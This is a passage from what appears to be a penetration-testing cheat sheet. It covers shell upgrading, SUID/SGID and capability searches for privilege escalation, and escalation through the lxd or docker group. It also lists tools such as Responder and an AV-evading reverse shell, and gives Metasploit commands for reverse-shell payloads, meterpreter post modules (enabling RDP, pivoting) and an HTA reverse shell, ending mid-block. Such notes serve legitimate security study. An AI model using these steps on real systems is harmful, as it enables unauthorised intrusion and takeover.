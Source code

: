 ```console
$ export TERM=xterm
```
- If Python wasn't available it is also possible to do:
```console
$ script -qc /bin/bash /dev/null
```
- It is interesting to look at files with SUID or SGID permissions set (especially if they are executable) since we can use them to scale privileges: `find / -perm /4000 2> /dev/null` to search for files with the SUID and `find / -perm /2000 2> /dev/null` with the SGID. Also exploring all the `capabilities` (gives root privileges but in pieces) of the different system files comes handy: `getcap -r / 2> /dev/null`
- Testing the `sudo -l` command can sometimes detect possible privilege escalation methods
- If the user belongs to the lxd or docker group, we may be able to mount the entire file system of the victim in a container and access it as root within the container
- With `ltrace` you can run a program and show some of the function calls that are made
- [**Responder**](https://github.com/lgandx/Responder)**:** LLMNR/NBT-NS/mDNS Poisoner y NTLMv1/2 Relay
- [**Hoaxshell**](https://github.com/t3l3machus/hoaxshell)**:** An unconventional Windows reverse shell, currently undetected by Microsoft Defender and possibly other AV solutions, solely based on HTTP(s) traffic
- [**metasploit**](https://github.com/rapid7/metasploit-framework)**:**
	- Metasploit has a lot of exploits in addition to a development environment to create new ones. To start it for the first time: 
	```console
	Anthares101@kali:~$ sudo msfdb init #Inicializa base de datos
	Anthares101@kali:~$ msf console #Iniciar metasploit
	```
	- **Basic things like this:**
		- **`use [exploit path]`:** This selects that it will be used
		- **`show options`:** It will display the exploit parameters to be configured
		- We can make `set [PARAM] [VALUE]` to set a certain parameter: `set LHOST 10.0.2.4`
		- **`set PAYLOAD cmd/unix/reverse`:** This does is add a payload to the exploit, which in this case will run a remote shell
		- **`run`:** Run an exploit or whatever we have selected with `use`
		- **`meterpreter`:** It's kind of like a vitamin shell. With the shell command you'll have access to a system shell
		- **Shellcode:** Set of instructions within a payload that is usually in assembler
		- **Encoder:** Hide payloads
	- To upgrade shell to meterpreter: `post/multi/manage/shell_to_meterpreter` and once in meterpreter we can use useful post modules:	
		- **`run post/windows/gather/checkvm`**
		- **`run post/multi/recon/local_exploit_suggester`:** To see what we can use to upload privileges
		- **`run post/windows/manage/enable_rdp`:** To open the remote desktop control
		- **`run autoroute -h`:** Allows you to use the victim machine as a gateway to access other parts of the network
	- You can get a reverse shell only using a HTTP request:
	  ```
	  # In Metasploit
	  use exploit/windows/misc/hta_server
	  set LHOST 443 # Optional, but can help in some cases
	  exploit
